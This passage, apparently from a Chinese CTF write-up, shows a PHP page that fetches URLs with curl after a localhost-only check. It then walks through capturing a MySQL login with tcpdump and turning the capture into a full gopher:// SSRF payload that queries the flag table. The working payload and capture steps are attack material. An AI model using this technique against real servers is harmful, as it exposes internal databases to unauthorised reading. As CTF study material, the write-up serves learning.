 ```php
function safe($url)
{
    $tmpurl = parse_url($url, PHP_URL_HOST);
    if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
    {
        var_dump($tmpurl);
        die("<h3>You are not localhost, get out!</h3>");
    }
    return $url;
}

function getUrlContent($url){
    $url = safe($url);
    $url = escapeshellarg($url);
    $pl = "curl ".$url;
    #echo $pl;
    $content = shell_exec($pl);
    return $content;
}

initdb($conn);

?>

```

可以读到数据库的账户密码等信息，采用的是 curl 协议，这里引入 [gopher 协议读取数据库](http://shaobaobaoer.cn/archives/643/gopher-8de8ae-ssrf-mysql-a0e7b6) 。

Payload：

先在一个 Terminal 监听数据库

```
# 建立一个 kkk 的用户
MariaDB [(none)]> create user 'kkk'@'localhost';
Query OK, 0 rows affected (0.00 sec)
MariaDB [(none)]> grant all on *.* to 'kkk'@'localhost';
Query OK, 0 rows affected (0.00 sec)

# 在一个 Terminal 上进行监听
tcpdump -i lo port 3306 -w mysql.pacy

# 在另外一个窗口执行下面语句
mysql -h 127.0.0.1 -u kkk -e "use kap0k; select * from fl4g;"
```

用 Wireshark 打开刚刚生成的 mysql.pacy，追踪 TCP 流，只抓取到 3306 的报文，找到刚刚的 payload 以十六进制保存，再编个马就可以了。

![1568346480517.png](https://i.loli.net/2019/09/15/XQLSjgUuMhDAR65.png)

最终payload

```
url=gopher://localhost:3306/_%ad%00%00%01%85%a2%3f%00%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6b%6b%6b%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%32%33%30%37%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%12%00%00%00%03%53%45%4c%45%43%54%20%44%41%54%41%42%41%53%45%28%29%06%00%00%00%02%6b%61%70%30%6b%13%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%66%6c%34%67%01%00%00%00%01
```
